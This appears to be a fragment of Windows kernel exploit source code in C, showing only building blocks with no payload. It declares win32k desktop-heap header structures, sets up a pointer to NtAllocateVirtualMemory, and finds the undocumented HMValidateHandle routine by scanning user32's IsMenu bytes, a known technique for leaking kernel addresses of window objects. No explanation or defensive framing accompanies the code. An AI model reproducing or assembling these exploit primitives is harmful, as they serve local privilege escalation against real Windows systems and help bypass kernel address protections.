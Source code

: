 typedef struct _DESKHEAD {
	PVOID   rpdesk;
	PBYTE   pSelf;
} DESKHEAD, *PDESKHEAD;

typedef struct _THRDESKHEAD {
	THROBJHEAD  thread;
	DESKHEAD    deskhead;
} THRDESKHEAD, *PTHRDESKHEAD;

/* Definition of xxHMValidateHandle */
static PVOID(__fastcall *pfnHMValidateHandle)(HANDLE, BYTE) = NULL;

/* Defintion of NtallocateVirtualMemory */
typedef
NTSTATUS
(WINAPI *pfNtAllocateVirtualMemory) (
	HANDLE       ProcessHandle,
	PVOID       *BaseAddress,
	ULONG_PTR    ZeroBits,
	PSIZE_T      RegionSize,
	ULONG        AllocationType,
	ULONG        Protect
	);
pfNtAllocateVirtualMemory NtAllocateVirtualMemory = NULL;


static
VOID
xxGetHMValidateHandle(VOID)
{
	HMODULE hModule = LoadLibraryA("USER32.DLL");
	PBYTE pfnIsMenu = (PBYTE)GetProcAddress(hModule, "IsMenu");
	PBYTE Address = NULL;
	for (INT i = 0; i < 0x30; i++)
	{
		if (*(WORD *)(i + pfnIsMenu) != 0x02B2)
		{
			continue;
		}
		i += 2;
		if (*(BYTE *)(i + pfnIsMenu) != 0xE8)
		{
			continue;
		}
		Address = *(DWORD *)(i + pfnIsMenu + 1) + pfnIsMenu;
		Address = Address + i + 5;
		pfnHMValidateHandle = (PVOID(__fastcall *)(HANDLE, BYTE))Address;
		break;
	}
}

static
PVOID
xxHMValidateHandleEx(HWND hwnd)
{
	return pfnHMValidateHandle((HANDLE)hwnd, TYPE_WINDOW);
}
